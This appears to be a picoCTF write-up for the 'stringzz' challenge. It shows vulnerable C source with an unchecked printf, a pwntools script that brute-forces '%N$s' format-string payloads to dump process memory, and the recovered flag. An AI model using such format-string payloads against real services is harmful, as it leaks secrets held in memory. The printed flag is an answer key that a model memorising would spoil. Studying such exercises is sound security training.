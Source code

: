 # stringzz

Points: 300

# Question

Use a format string to pwn this [program](vuln) and get a flag. Its also found in /problems/stringzz_6_5f0e31bfd7b9a7c6a32d22b6d57e9010 on the shell server. [Source](vuln.c).

# Hint 

http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf

# Solution

Looking at the source code:

```C
void printMessage3(char *in)
{
  puts("will be printed:\n");
  printf(in);                        <----- printf which can be exploit with format strings
}
void printMessage2(char *in)
{
  puts("your input ");
  printMessage3(in);
}

void printMessage1(char *in)
{
  puts("Now ");
  printMessage2(in);
}

int main (int argc, char **argv)
{
    puts("input whatever string you want; then it will be printed back:\n");
    int read;
    unsigned int len;
    char *input = NULL;
    getline(&input, &len, stdin);            <------ user give some input 
    //There is no win function, but the flag is wandering in the memory!
    char * buf = malloc(sizeof(char)*FLAG_BUFFER);
    FILE *f = fopen("flag.txt","r");                
    fgets(buf,FLAG_BUFFER,f);                <------ flag loaded to some place in memory
    printMessage1(input);        
    fflush(stdout);
 
}
```

This time we have no win function and we don't need to overflow the buff, the flag is somewhere in the memory and we can just print it using format_strings 

for example, if we give "%x" as input we will some output we did not suppose to get, look like memory addresses.

![](strings1.png)

so we can brute-force and make the program print a lot of stuff that stored in our memory and hopefully the flag  - [script](script.py)

```
from pwn import *

path ="/problems/stringzz_6_5f0e31bfd7b9a7c6a32d22b6d57e9010/vuln"
for i in range(100):
        try:
            sh =process(path)
            sh.sendline('%{}$s'.format(i))
            print(sh.recv())
            sh.close()
        except EOFError:
            pass
```

after searching a bit between all outputs we can find the flag 

![](strings2.png)

# Flag
picoCTF{str1nG_CH3353_0814bc7c}

